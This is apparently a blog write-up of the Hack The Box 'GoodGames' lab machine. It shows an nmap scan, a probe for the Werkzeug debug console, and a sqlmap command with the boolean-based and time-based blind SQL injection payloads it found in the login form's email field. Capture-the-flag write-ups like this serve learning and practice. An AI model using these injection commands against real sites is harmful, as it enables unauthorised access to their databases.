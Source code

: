 ```yaml
---
layout: post
title:  "GoodGames Writeup"
name: "goodgames"
date:   2023-03-24 07:44
author: "soh3ee"
categories: writeups
--- 
```

{% assign image_path = site.data.categories[0].image_path %}
GoodGames was an easy rated box featuring a login page that called unsanitized queries and server side template injection (SSTI). I feel like this box reinforces your fundamentals such as using automated tooling like SQLmap, being weary of any data entry fields, and a touch into the concept of containers (I had never escaped one before this box!).  
##  TCP Nmap Scan

```lua
nmap -p- -sCV -o goodgames.txt --min-rate=10000 10.10.11.130
Warning: 10.10.11.130 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.130
Host is up (0.086s latency).
Not shown: 64418 closed tcp ports (conn-refused), 1116 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 21 15:46:24 2023 -- 1 IP address (1 host up) scanned in 27.49 seconds
```
I added `goodgames.htb` to my `/etc/hosts`.

I noticed that there was some information about the technology the site was using: `Werkezeug/2.0.2 Python/3.9.2`. `Werkzeug` caught my eyes-- I searched up "Werkzeug 2.0.2 exploits". HackTricks said that if debug is enabled, there could be a URI to the console with `/console`. When I read that, I thought it would be my initial access, but unfortunately I just got a 404 error X_X.

Moving on, I tried clicking around the site and analyzed the requests that the site was sending with Burpsuite. I looked at the requests and replies, but nothing really caught my eye. Eventually, I saw myself back at the login page, in which I came to my last resort: SQL injection. I used `burpsuite` to confirm the URI path and data parameters:

![]({{ image_path }}{{ page.name }}/burpsuite.png)

### Sqlmap Payload
``` shell
sqlmap -u 'http://goodgames.htb/login' --data="email=test@gmail.com&password=test" --level 5 --risk 3 -f --banner │ --ignore-code 401
```
``` sql
sqlmap identified the following injection point(s) with a total of 235 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: email=test@gmail.com' OR NOT 9443=9443-- ivUO&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@gmail.com' AND (SELECT 7414 FROM (SELECT(SLEEP(5)))yOWp)-- sdlr&password=test

```